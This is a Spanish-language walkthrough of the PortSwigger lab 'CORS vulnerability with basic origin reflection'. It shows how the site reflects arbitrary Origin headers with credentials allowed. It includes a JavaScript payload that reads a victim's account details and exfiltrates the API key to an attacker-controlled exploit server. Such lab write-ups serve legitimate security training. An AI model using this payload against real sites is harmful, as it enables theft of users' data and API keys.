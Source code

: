 ```yaml
---
title: "CORS vulnerability with basic origin reflection"
description: "Laboratorio de Portswigger sobre CORS"
date: 2025-04-05 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CORS
tags:
  - Portswigger Labs
  - CORS
  - CORS vulnerability with basic origin reflection
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `sitio web` tiene una configuración `insegura` de `Cross-Origin Resource Sharing (CORS)`, ya que confía en `todos los orígenes`. Para `resolver` el `laboratorio`, debemos crear un script de `JavaScript` que utilice `Cross-Origin Resource Sharing (CORS)` para obtener la `clave API` del `administrador` y subir el `script` a nuestro `servidor de explotación`. El `laboratorio` se considerará resuelto cuando enviemos con éxito la `clave API` del `administrador`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CORS-Lab-1/image_1.png)

Hacemos `click` sobre  `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CORS-Lab-1/image_2.png)

Vemos que podemos `cambiar` nuestro `email` y una clave `API`

![](/assets/img/CORS-Lab-1/image_3.png)

Cuando accedemos a `/my-account` después de `iniciar sesión` vemos que se manda una `petición` a `/accountDetails` y `recibimos` una `respuesta` con los `datos` de nuestro `usuario`. Lo destacable de esto es que el `servidor` nos `responde` con la cabecera `Access-Control-Allow-Credentials: true`

![](/assets/img/CORS-Lab-1/image_5.png)

Si `mandamos` esta `petición` al `Repeater` e `inyectamos` la cabecera `Origin: https://vulnerable.com` se ve `reflejada` en la `respuesta`

![](/assets/img/CORS-Lab-1/image_6.png)

Que el `servidor` responda con la cabecera `Access-Control-Allow-Credentials: true` no lo hace vulnerable. Lo que lo hace vulnerable es la `combinación` de esa cabecera con `Access-Control-Allow-Origin: *` o, como en este caso, que no `valide la cabecera` y nos deje proporcionar a nosotros una `Access-Control-Allow-Origin: https://vulnerable.com`. Cuando se cumplen estos `requisitos`, podemos aprovechar estas `políticas de CORS inseguras` para obtener `datos de otros usuarios`. Para ello, nos dirigimos al `Exploit server` y construimos este `payload`

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0a4c0053031c0975805453b000ba00f4.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'https://exploit-0a6200f003d609a280ef523c01720026.exploit-server.net/log?key=' + this.responseText;
    };
</script>
```

Pulsamos sobre `View exploit`, nos dirigimos a `Access log` y vemos cómo se ha hecho una `petición` a nuestro `exploit` y posteriormente se `envían` los `datos del usuario víctima` a `nuestro servidor`

![](/assets/img/CORS-Lab-1/image_7.png)

Una vez que hemos comprobado que funciona `pulsamos` sobre `Deliver exploit to victim`, nos dirigimos al `Access log` y vemos que `recibimos información del usuario víctima` en `formato URL encoded`

![](/assets/img/CORS-Lab-1/image_8.png)

Nos dirigimos al `Decoder`, `pegamos` la información obtenida y la `URL decodeamos`

![](/assets/img/CORS-Lab-1/image_9.png)

Nos `copiamos` al `apiKey`, pulsamos en `Submit solution` y la `pegamos`

![](/assets/img/CORS-Lab-1/image_10.png)
